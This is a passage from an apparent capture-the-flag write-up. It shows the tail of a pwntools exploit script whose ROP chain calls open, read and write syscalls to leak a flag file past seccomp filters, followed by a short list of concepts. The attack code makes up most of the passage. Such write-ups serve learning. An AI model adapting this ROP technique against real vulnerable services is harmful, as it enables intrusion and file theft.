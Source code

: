 ```python
rop.raw(-100)
rop.raw(rop.find_gadget(['pop rsi']))
rop.raw(exe.symbols['_ZL4name'])
rop.raw(0)
rop.raw(rop.find_gadget(['pop rdx']))
rop.raw(0)
rop.raw(rop.find_gadget(['syscall', 'ret']))

# read gadget
rop.raw(rop.find_gadget(['pop rax', 'ret']))
rop.raw(0)
rop.raw(rop.find_gadget(['pop rdi', 'ret']))
rop.raw(3)
rop.raw(rop.find_gadget(['pop rsi']))
rop.raw(exe.symbols['_ZL4name'])
rop.raw(0x0)
rop.raw(rop.find_gadget(['pop rdx']))
rop.raw(50)
rop.raw(rop.find_gadget(['syscall', 'ret']))

# write gadget
rop.raw(rop.find_gadget(['pop rax', 'ret']))
rop.raw(1)
rop.raw(rop.find_gadget(['pop rdi', 'ret']))
rop.raw(1)
rop.raw(rop.find_gadget(['pop rsi']))
rop.raw(exe.symbols['_ZL4name'])
rop.raw(0x0)
rop.raw(rop.find_gadget(['pop rdx']))
rop.raw(50)
rop.raw(rop.find_gadget(['syscall', 'ret']))

payload += rop.chain()
payload += b"\n"

p.send(payload)
p.interactive()
```

Running this exploit returns the flag.

## Important Concepts
- seccomp filters
- buffer overflow
- rop chaining
- .data section
